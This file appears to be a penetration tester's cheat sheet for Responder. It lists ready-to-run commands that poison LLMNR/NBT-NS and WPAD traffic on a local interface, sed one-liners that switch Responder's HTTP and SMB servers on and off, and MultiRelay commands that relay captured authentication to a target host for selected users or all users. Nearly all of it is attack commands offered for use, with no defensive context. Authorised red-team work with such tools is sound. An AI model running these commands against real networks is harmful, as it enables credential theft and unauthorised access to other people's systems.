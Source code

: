 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
```
responder –I eth0 -A
```

## responder launch with wpad file 
```
responder -I eth0 --wpad
```

## responder http on
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
```
responder-MultiRelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
```
responder-MultiRelay -t <ip> -u ALL
```
